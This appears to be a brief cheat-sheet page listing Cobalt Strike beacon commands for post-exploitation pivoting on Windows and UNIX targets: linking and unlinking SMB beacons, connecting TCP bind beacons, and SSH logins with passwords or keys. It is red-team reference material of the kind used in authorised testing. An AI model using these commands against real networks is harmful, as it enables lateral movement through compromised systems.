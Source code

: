 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

Link SMB beacon from the windows target.

```
beacon> link <IP
```

Unlink SMB beacon from the windows target. You can re-`link` the disconnected windows target from a different live beacon session.

```
beacon> unlink <IP>
```

Connect TCP bind beacon from a windows target.

```
beacon> connect <IP> [<PORT>]
```

Authenticate SSH credentials from a UNIX target.

```
beacon> ssh <IP> <username> <password>

beacon> ssh-key <IP> <username> /path/to/local/ssh_key
```